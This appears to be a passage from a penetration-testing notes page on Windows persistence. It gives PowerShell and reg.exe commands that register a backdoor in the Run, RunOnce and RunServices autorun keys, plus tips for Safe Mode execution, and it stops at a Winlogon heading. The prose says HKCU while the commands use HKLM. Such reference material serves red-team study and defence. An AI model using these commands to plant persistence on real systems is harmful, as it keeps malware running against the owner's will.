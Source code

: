 {% tabs %}
{% tab title="PowerShell" %}
Create key values in the Autoruns keys in `HKCU:\Software\Microsoft\Windows\CurrentVersion`.&#x20;

**Run** and **RunOnce** keys are run each time a new user logs in.&#x20;

**RunServices** and **RunServicesOnce** are run in the background when the logon dialog box first appears or at this stage of the boot process if there is no logon.

```powershell
New-ItemProperty -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\Run -PropertyType String -Name $key_name -Value "$backdoor_path"
New-ItemProperty -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce -PropertyType String -Name $key_name -Value "$backdoor_path"
New-ItemProperty -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\RunServices -PropertyType String -Name $key_name -Value "$backdoor_path"
New-ItemProperty -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce -PropertyType String -Name $key_name -Value "$backdoor_path"
```
{% endtab %}

{% tab title="cmd.exe" %}
Create values in the Autoruns keys in `HKCU\Software\Microsoft\Windows\CurrentVersion`. The option `/v` is the name you want, and `/d` is the path to your backdoor.  **Run** and **RunOnce** keys are run each time a new user logs in. **RunServices** and **RunServicesOnce** are run in the background when the logon dialog box first appears or at this stage of the boot process if there is no logon.

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
By default, the value of a RunOnce key is deleted before the command line is run. You can prefix a RunOnce value name with an exclamation point (!) to defer deletion of the value until after the command runs. Without the exclamation point prefix, if the RunOnce operation fails the associated program will not be asked to run the next time you start the computer.&#x20;

By default, these keys are ignored when the computer is started in Safe Mode. The value name of RunOnce keys can be prefixed with an asterisk (\*) to force the program to run even in Safe mode.

[Microsoft](https://docs.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys)
{% endhint %}

#### Winlogon Helper DLL

{% tabs %}
{% tab title="PowerShell" %}
Run backdoor during Windows logon
